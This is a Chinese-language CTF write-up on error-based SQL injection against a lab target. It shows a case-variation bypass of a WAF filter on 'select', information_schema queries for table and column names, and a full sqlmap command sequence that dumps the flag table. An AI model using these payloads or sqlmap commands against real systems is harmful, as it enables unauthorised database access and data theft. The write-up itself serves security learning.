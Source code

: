 ```yaml
---
title: SQL报错注入实战
tags: Web漏洞攻击
categories: CTF比赛
top: 16
---
```

## 手工注入过程
 1. 首先我们拿到一个靶机网站，随便输入一个密码，无任何回显，然后我们进行抓包判断，查看源代码发现加入tips参数能出报错提示
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162455485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162503191.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
 2. 可初步判断可以使用SQL报错注入进行注入攻击，然后我们对name变量进行插入恶意语句
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162519249.png)
<!--more-->
 3. 发现我们的select关键词被WAF过滤了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162548472.png)
 4. 然后我们采用大小写绕过的方式，成功回显
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162608918.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162617134.png)
 5. 我们成功绕过WAF后，就可以正式展开攻击了。攻击的方式是将select 1中的1替换成我们想要查询的参数，这里我们替换成`group_concat(table_name) from information_schema.tables where table_schema=database()`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162658776.png)
 6. 执行成功后，可以看到所有的数据库名，fl4g和users
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162719437.png)
 7. 然后我们再进一步查询相应数据库的字段名，我们这里要查询的是fl4g这个数据库，查询语句为`sElEct group_concat(column_name) from information_schema.columns where table_name='fl4g'`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162749320.png)
 8. 最后查询语句替换为sElEct flag from fl4g，直接出flag值
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162809150.png)
## Sqlmap自动化注入
 1. 这里介绍第二种方式，使用sqlmap进行自动化注入的方式
首先我们用burpsuite神器进行抓包，将抓获的内容保存为request.txt文件
<!--more-->
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162852232.png)
2. 然后键入如下命令`sqlmap -r request.txt --dbms=mysql`，然后判断出存在POST注入漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162949388.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
3. 然后切换命令，爆破出数据库名称`sqlmap -r request.txt --dbs --dbms=mysql –batch`，这里我们的目标是note数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032516301327.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
4. 然后指定数据库，爆出表名`sqlmap -r request.txt --dbs -D note --tables --dbms=mysql –batch`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163031404.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
5. 然后爆出对应的字段名`sqlmap -r request.txt --dbs -D note -T fl4g --columns --dbms=mysql –batch`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163051891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
6. 最后爆破出flag值`sqlmap -r request.txt --dbs -D note -T fl4g -C flag --dbms=mysql --batch --dump`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163109890.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)

